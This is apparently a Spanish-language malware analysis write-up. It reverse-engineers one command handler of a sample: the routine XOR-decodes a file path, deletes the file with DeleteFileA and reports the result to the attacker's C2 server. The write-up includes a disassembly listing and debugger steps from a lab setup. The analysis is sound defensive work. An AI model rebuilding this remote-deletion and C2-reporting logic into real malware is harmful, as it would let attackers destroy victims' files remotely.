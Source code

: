 # FUN_004020A0 - Opcode 4

**Propósito principal: Eliminar un archivo remoto y reportar el resultado al C2.**
 
Esta función:
- Recibe un nombre de archivo ofuscado.
- Lo descifra (XOR 0x55).
- Intenta eliminarlo con DeleteFileA.
- Notifica el éxito o el fallo al servidor remoto, probablemente parte del panel de control del atacante.

________________________________________________________________________

# Análisis dinámico de Opcode 4

## Listener en python para poder probar este opcode
[listener-opcode4](../analisis-dinamico/listener-opcode-4.py)

Creamos un archivo prueba.txt en el escritorio que es el que se va a intentar borrar.  
Activamos en la MV Remnux un listener para probar este opcode en x32dbg y hacemos una captura de los paquetes que circulan por la red:
```
sudo tcpdump -i any host 10.0.0.4
sudo pythom3 listener-opcode-4.py
```


## Inicio de función 0x004020A0 – Entrada
![Inicio](../analisis-dinamico/capturas/004020A0-opcode4.png)
- ECX = param_2 → puntero a la ruta XOReada.
- Clic dcho en ECX → Follow in Dump. Vemos el envío del host C2 ofuscado.
- En la dirección de memoria [ESP+8] vemos el envío del host C2 ofuscado.


## 0x004020B7 – Justo tras el bucle XOR
![Final bucle XOR](../analisis-dinamico/capturas/004020B7-opcode4.png)
- La ruta ya está en claro en ECX.
- GUI: Follow in Dump → ECX para ver la ruta a borrar.

## 0x004020B8 – DeleteFileA
![DeleteFileA](../analisis-dinamico/capturas/opcode4-prueba.txt.png)
- Step over (F8) para ejecutar el borrado.

## 0x004020BE – test eax,eax (resultado)
- EAX != 0 → éxito.  
![Exito borrado fichero](../analisis-dinamico/capturas/004020BE-opcode4.png)

- EAX == 0 → fallo.
![Fallo borrado fichero](../analisis-dinamico/capturas/004020BE-con-fallo-opcode4.png)


## Comunicación en el Host C2
![opcode4-1](../analisis-dinamico/capturas/opcode4-escucha.png)

____________________________________________
# FUN_004020A0 Decompilada

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_004020a0(undefined4 param_1, LPCST
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1
             LPCSTR            Stack[0x8]:4   param_2                                 XREF[1]:     004020a0(R)  
                             FUN_004020a0                                    XREF[1]:     FUN_004012f0:0040175b(c)  
        004020a0 8b 4c 24 08     MOV        ECX,dword ptr [ESP + param_2]
        004020a4 33 c0           XOR        EAX,EAX
                             LAB_004020a6                                    XREF[1]:     004020b5(j)  
        004020a6 8a 14 08        MOV        DL,byte ptr [EAX + ECX*0x1]
        004020a9 80 f2 55        XOR        DL,0x55
        004020ac 88 14 08        MOV        byte ptr [EAX + ECX*0x1],DL
        004020af 40              INC        EAX
        004020b0 3d 00 01        CMP        EAX,0x100
                 00 00
        004020b5 7c ef           JL         LAB_004020a6
        004020b7 51              PUSH       ECX
        004020b8 ff 15 34        CALL       dword ptr [->KERNEL32.DLL::DeleteFileA]          = 00009914
                 90 40 00
        004020be 85 c0           TEST       EAX,EAX
        004020c0 6a 00           PUSH       0x0
        004020c2 6a 02           PUSH       0x2
        004020c4 74 11           JZ         LAB_004020d7
        004020c6 8b 44 24 0c     MOV        EAX,dword ptr [ESP + 0xc]
        004020ca 68 94 a1        PUSH       DAT_0040a194                                     = 30h    0
                 40 00
        004020cf 50              PUSH       EAX
        004020d0 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004020d6 c3              RET
                             LAB_004020d7                                    XREF[1]:     004020c4(j)  
        004020d7 8b 4c 24 0c     MOV        ECX,dword ptr [ESP + 0xc]
        004020db 68 90 a1        PUSH       DAT_0040a190                                     = 31h    1
                 40 00
        004020e0 51              PUSH       ECX
        004020e1 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004020e7 c3              RET

```
